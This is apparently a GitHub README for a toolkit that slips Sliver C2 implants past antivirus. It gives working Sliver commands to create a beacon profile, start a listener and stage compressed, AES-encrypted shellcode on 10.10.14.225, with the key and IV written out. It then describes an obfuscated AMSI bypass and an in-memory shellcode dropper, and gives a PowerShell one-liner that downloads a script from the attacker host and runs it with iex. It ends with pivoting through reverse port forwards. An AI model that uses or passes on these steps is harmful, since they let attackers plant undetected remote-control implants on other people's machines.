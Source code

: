 # Bypass AV with Sliver c2

Toolkit and sample VS solution to start bypassing AV with Sliver C2 payloads.

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

## In Sliver

Create new beacon profile (does not need to be HTTPS)

`profiles new --http http://10.10.14.225:8080 --format shellcode http1`

Start listener

`http -L 10.10.14.225 -l 8080`

Stage beacon payload - compress and encrypt (optional)

`stage-listener --url http://10.10.14.225:8443 --profile http1 -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropping In-Memory

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly after an AMSI bypass.

1. Setup your AMSI bypass. 
	- Use `AmsiTrigger` to detect flags in `am_obfs.ps1`
	- Use `Invoke-Obfuscation` to patch these
	- Update the download url in the bypass.

2. Make any modifications to the assembly that you like
	- Afterwards, grab the base64 blob and update `loader.ps1`
	- `get-content -encoding byte -path .\sliverloader.dll | clip` and then CyberChef

3. Convert any encryption keys or IVs to bytes and update `loader.ps1`

4. Execute the dropper with bypass added
	- `(New-Object Net.WebClient).DownloadString('http://10.10.14.225:1234/am_obfs.ps1) | iex`

## Pivots

For pivot listeners, you will need to create a new named pipe or TCP profile. You may stage the shellcode on your teamserver. However, you will need to `rportfwd` a jump host to your teamserver.